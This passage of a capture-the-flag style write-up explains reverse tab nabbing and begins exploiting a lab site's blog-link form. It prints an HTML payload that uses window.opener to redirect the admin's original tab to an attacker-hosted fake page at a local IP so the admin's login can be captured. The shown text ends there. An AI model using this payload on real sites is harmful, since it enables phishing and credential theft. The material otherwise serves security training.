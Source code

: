 - We can now login
  
  ![welcome](images/04.png)

## Inspection
- The website allows us to enter any link in the Blog link form
- On submission it creates an hyperlink when clicked opens a new tab
- That's where we got something
  
   ![bingo](images/05.png)

- The website is vulnerable to Tab nabbing.
  - What is tab nabbing?
    - imagine you're reading an interesting article on a website, and within this article, there's a link that catches your eye.
    - You click on it, and the link opens in a new tab in your browser.
    - While you're looking at the new tab, the original tab (where the link was) quietly changes to a fake page. This fake page is designed to look like the legitimate website.
    - When you return to the original tab, you might not notice it has changed. If the page now asks you to log in again, you might think you were logged out automatically and re-enter your credentials, not realizing you're giving your login details to an attacker.
  - It is said on the welcome page that all links will be reviewed by the admin, so we got ourselves a lead.

## Exploitation
- create a temporary folder where we will host our 'fake' website
- The main idea here is to capture the target (which is now the website admin) credentials
- For that we will need him to connect to our machine where we will have a listener waiting for him
  ```
   ┌──(kali㉿kali)-[~/Documents/fake_website
  └─$ cat submit.html
  <!DOCTYPE html>
  <html>
  <head>
    <title>hehe</title>
  </head>
  <body>
    <script>
        window.opener.location = "http://10.0.2.8:8082/index.html";
    </script>
  </body>
  </html>
  ```